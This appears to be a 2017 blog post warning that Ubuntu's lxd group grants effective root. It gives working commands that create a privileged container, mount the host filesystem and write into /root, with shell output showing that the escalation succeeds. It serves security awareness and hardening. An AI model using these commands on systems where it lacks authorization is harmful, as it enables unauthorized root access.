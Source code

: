 ```yaml
---
layout: post
title:  "Privilege Escalation via lxd"
date:   2017-09-27 00:00:00 +0100
categories: [lxd]
description: A super simple way to escalate if you find yourself a member of the lxd group
image:
  feature: lxd.jpg
  credit:
  creditlink:
---
```


LXD is Ubuntu's container manager utilising linux containers.  It could be considered to act in the same sphere as docker, 

The lxd group should be considered harmful in the same way the [docker](https://www.andreas-jung.com/contents/on-docker-security-docker-group-considered-harmful) group is.  Under no circumstances should a user in a local container be given access to the lxd group.  This is because it's entirely trivial to exploit.  

Firstly, I'd check if your user is a member of this group, because chances are that if you've installed it and are a sudoer, that you are.  Upon installation, lxd automatically adds every user to the lxd group.  Whilst this could be considered okay, considering that a sudoer automatically has root access, it forgets that sudo has auditing capabilities in place, and does require a password to perform any actions that would be required by root.  In fact, merely installing lxd is equivalent to adding the following in your sudoers file.

{%highlight bash%}
admin    ALL=NOPASSWD: ALL
{%endhighlight%}

If someone gains access to the admin account then immediately they have full root access without a password.  Consider an ssh private key escaping into the wild or an outdated service running under this user, and suddenly an attacker who still hasn't cracked the admin accounts password has full root access, all because you installed lxd. 

```bash
ubuntu@ubuntu:~$ cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
ubuntu@ubuntu:~$ cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
ubuntu@ubuntu:~$ sudo su 
[sudo] password for ubuntu:  
root@ubuntu:/home/ubuntu# apt-get install lxd 
----SNIP----
root@ubuntu:/home/ubuntu# cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
root@ubuntu:/home/ubuntu# cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
lxd:x:129:ubuntu 
```

I'm not arguing against the existence of the lxd group, merely that it increases your attack surface without notifying the user at all.  Discovering this was down to a user not realising the power this group gave their account, and whilst sudo privilege was removed, lxd access was not. 

Exploiting
-----------
So it's all good me harping on about the security risks but lets see it in action.  I only found this thanks to [#2003](https://github.com/lxc/lxd/issues/2003)

{%highlight bash%}
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash 
{%endhighlight%}

Here we have created an lxc container, assigned it security privileges and mounted the full disk under `/mnt/root`.  

{%highlight bash%}
ubuntu@ubuntu:~$ lxc exec test bash 
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit 
ubuntu@ubuntu:~$ cat /root/ICanDoWhatever 
cat: /root/ICanDoWhatever: Permission denied 
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# cat /root/ICanDoWhatever 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#  
{%endhighlight%}

So now see how we haven't once typed our password in or escalated privileges manually.  We could even remove ourselves from sudoers and do all this, making root escalation trivial.  Lesson learnt, use the lxd group with care.
